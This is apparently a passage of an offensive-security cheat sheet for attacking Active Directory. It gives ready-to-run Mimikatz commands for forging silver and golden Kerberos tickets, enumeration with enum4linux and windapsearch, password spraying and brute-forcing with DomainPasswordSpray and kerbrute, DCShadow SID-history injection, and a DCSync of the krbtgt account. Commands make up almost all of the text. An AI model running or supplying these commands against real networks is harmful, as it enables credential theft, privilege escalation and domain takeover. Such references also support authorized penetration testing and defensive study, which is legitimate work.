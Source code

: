 ```bash
post/windows/escalate/golden_ticket 

# Silver Ticket
# Silver Ticket allows escalation of privileges on DC
# /target t he server/computer name where the service is hosted (ex: share.server.local, sql.server.local:1433, ...)
# /service - The service name for the ticket (ex: cifs, rpcss, http, mssql, ...)

# Examples
kerberos::golden /user:VALUE /domain:domain /sid:domain-sid /target:evilcorp-sql102.evilcorp.local.1433 /service:MSSQLSvc /rc4:service-hash /ptt /id:1103
sqlcmd -S evilcorp-sql102.evilcorp.local
select SYSTEM_USER;
GO

kerberos::golden /user:JohnDoe /id:500 /domain:targetdomain.com /sid:S-1-5-21-1234567890-123456789-1234567890 /target:targetserver.targetdomain.com /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt
```

## AD Attacks

### Enumeration
```bash
enum4linux -a 192.168.1.2
python windapsearch.py -u VALUE -p VALUE -d evil.corp --dc-ip 192.168.1.2
python ad-ldap-enum.py -d contoso.com -l 10.0.0.1 -u Administrator -p P@ssw0rd
```

### Bruteforce on ldap
```bash
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

# Password brute
./kerbrute_linux_amd64 bruteuser -d evil.corp --dc 192.168.1.2 rockyou.txt VALUE

# Username brute
./kerbrute_linux_amd64 userenum -d evil.corp --dc 192.168.1.2 users.txt

# Password spray
./kerbrute_linux_amd64 passwordspray -d evil.corp --dc 192.168.1.2 users.txt rockyou.txt
```

### DC Shadow
```bash
#Find sid for that user
wmic useraccount where (name='administrator' and domain='%userdomain%') get name,sid

#This will create a RPC Server and listen
lsadump::dcshadow /object:"CN=VALUE,OU=Business,OU=Users,OU=ECORP,DC=ECORP,DC=local" /attribute:sidhistory /value:sid

# Run this from another mimikatz
lsadump::dcshadow /push

# After this unregistration must be done
# Relogin

lsadump::dcsync /domain:ECORP.local /account:krbtgt
```
